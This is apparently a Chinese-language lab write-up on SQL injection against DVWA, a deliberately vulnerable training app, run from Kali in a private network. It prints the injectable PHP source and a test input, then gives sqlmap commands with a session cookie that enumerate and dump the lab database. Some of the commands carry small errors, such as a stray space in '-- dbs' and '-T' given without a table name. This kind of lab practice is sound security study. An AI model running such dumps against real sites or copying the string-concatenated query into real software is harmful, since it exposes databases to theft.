 ```yaml
---
title: DVWA 之 SQL Injection
date: 2024-2-20 16:29:11
categories: 
- [Security]
tags: 
- dvwa
- sql injection
---
```


## 一、 环境说明
 
  靶机: 192.168.1.201 (DVWA 容器)
  攻击: 192.168.1.15 (kali)
  Security: Low
 
## 二、 SQL Injection


### 2.1 源码分析

``` php
  <?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?>
```

  输入用户id, 参数传入之后没有任何过滤, 拼接成sql语句使用```mysqli-query```函数查询
  测试 ``` ' and 1=2 ```, 根据 ```response``` 判断存在 ```字符串类型注入```
   ![图](/images/078.dvwa_sql_injection.md.04.png)


### 2.2 获取 cookie
  这里使用Burp Suite 
 ![图](/images/078.dvwa_sql_injection.md.01.png)

### 2.3 使用sqlmap对url进行检测
  ``` shell 
  sudo sqlmap -u "http://192.168.1.201/vulnerabilities/sqli/?id=1&Submit=Submit#" \
   --cookie="PHPSESSID=e1vntltnfvu24qhi81a5rmuhm1; security=low" 
   ```
  ![图](/images/078.dvwa_sql_injection.md.02.png)

  存在以下可以注入的类型:
  UNION query SQL injection（可联合查询注入）
  Boolean-based blind SQL injection（布尔型注入）
  Error-based SQL injection（报错型注入）
  Time-based blind SQL injection（基于时间延迟注入）

### 枚举出 DBMS 所有数据库
  ``` shell 
  sudo sqlmap -u "http://192.168.1.201/vulnerabilities/sqli/?id=1&Submit=Submit#" \
   --cookie="PHPSESSID=e1vntltnfvu24qhi81a5rmuhm1; security=low" \
   -- dbs
  ```
  ![图](/images/078.dvwa_sql_injection.md.05.png)

### 枚举出 DBMS 数据库中的所有表
  ``` shell 
  sudo sqlmap -u "http://192.168.1.201/vulnerabilities/sqli/?id=1&Submit=Submit#" \
   --cookie="PHPSESSID=e1vntltnfvu24qhi81a5rmuhm1; security=low" \
   -D dvwa --tables
  ```
  ![图](/images/078.dvwa_sql_injection.md.06.png)

### 枚举出 DBMS 表中的所有列
  ``` shell 
  sudo sqlmap -u "http://192.168.1.201/vulnerabilities/sqli/?id=1&Submit=Submit#" \
   --cookie="PHPSESSID=e1vntltnfvu24qhi81a5rmuhm1; security=low" \
   -D dvwa -T --columns
  ```
  ![图](/images/078.dvwa_sql_injection.md.07.png)

### 枚举所有数据
  ``` shell 
  sudo sqlmap -u "http://192.168.1.201/vulnerabilities/sqli/?id=1&Submit=Submit#" \
   --cookie="PHPSESSID=e1vntltnfvu24qhi81a5rmuhm1; security=low" \
   -D dvwa -T --columns -a
  ```
  ![图](/images/078.dvwa_sql_injection.md.08.png)